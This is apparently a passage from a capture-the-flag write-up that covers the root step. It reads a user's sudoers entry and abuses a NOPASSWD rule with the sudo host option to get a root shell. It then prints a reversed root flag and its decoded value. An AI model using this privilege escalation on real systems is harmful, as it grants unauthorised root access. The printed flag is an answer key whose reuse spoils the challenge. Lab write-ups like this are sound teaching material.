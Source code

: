 ### root
* Looking at the sudoers file for the alice user with `cat /etc/sudoers.d/alice`, we see the following:
`alice ssalg-gnikool = (root) NOPASSWD: /bin/bash`
* This means alice can run `/bin/bash` as `root` using the `ssalg-gnikool` host
	* Thus, running `sudo -h ssalg-gnikool /bin/bash` gives us root

* `cat /root/root.txt` gives us `}f3dae6dec817ad10b750d79f6b7332cb{mht`, which looks like a backwards flag.
        * We can reverse that in python:

```python3
with open('root.txt') as fin:
        print(fin.read().rstrip()[::-1])
```
* The root flag is `thm{bc2337b6f97d057b01da718ced6ead3f}`
